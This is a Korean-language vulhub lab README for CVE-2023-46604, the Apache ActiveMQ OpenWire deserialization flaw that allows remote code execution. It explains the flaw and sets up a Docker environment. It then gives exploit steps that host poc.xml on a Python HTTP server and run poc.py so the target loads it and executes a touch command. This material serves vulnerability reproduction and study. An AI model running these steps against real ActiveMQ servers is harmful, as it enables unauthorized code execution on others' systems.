 # Apache ActiveMQ OpenWire 프로토콜 병렬화 RCE (CVE-2023-46604)

[원문(English version)](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/README.md)

Apache ActiveMQ는 미국 Pachitea(Apache) 소프트웨어 재단에서 개발한 오픈 소스 메시징 미들웨어로 자바 메시징 서비스, 클러스터링, 스프링 프레임워크 등을 지원합니다.

OpenWire 프로토콜은 ActiveMQ에서 여러 다른 언어 및 플랫폼에서 ActiveMQ에 대한 네이티브 액세스를 허용하도록 설계되었습니다. Apache ActiveMQ 5.18.2 이전 버전은 역직렬화 취약성의 영향을 받았습니다. 이 취약성은 네트워크 액세스 권한을 가진 원격 공격자가 OpenWire 프로토콜의 직렬화된 클래스 유형을 조작하여 임의의 셸 명령을 실행하여 에이전트의 클래스 경로에 있는 모든 클래스를 인스턴스화할 수 있도록 할 수 있습니다.

참고 문헌:

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## 환경 설정

ActiveMQ는 다음 2개의 포트를 수신합니다:

| 기본 포트     | 기본 조건                             |
|--------------|--------------------------------------|
| 8161 (web)   | 원격 액세스에는 구성이 필요함           |
| 61616 (tcp)  | 원격 액세스 허용                       |

포트 61616에 병렬화 문제가 있습니다.

ActiveMQ 5.17.3 서버를 실행하려면 다음 명령을 입력합니다:

```
docker compose up -d
```

61616번 포트만 사용하면 되지만 악용 전에 서비스가 성공적으로 시작되었는지 확인하려면 `http://your-ip:8161`에 접속하십시오.

## Exploit

Python3 http.server 모듈을 사용하여 [poc.xml](poc.xml) 파일이 있는 폴더에서 HTTP 서버를 빠르게 시작할 수 있습니다:

```shell
python3 -m http.server 6666
```

그런 다음 [poc.py](poc.py)을 실행합니다:

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

다음 명령을 사용하여 ActiveMQ 컨테이너 내부를 확인할 수 있습니다:

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

touch /tmp/activeMQ-RCE-success가 성공적으로 실행되었음을 보여 줍니다.

![01.png](01.png)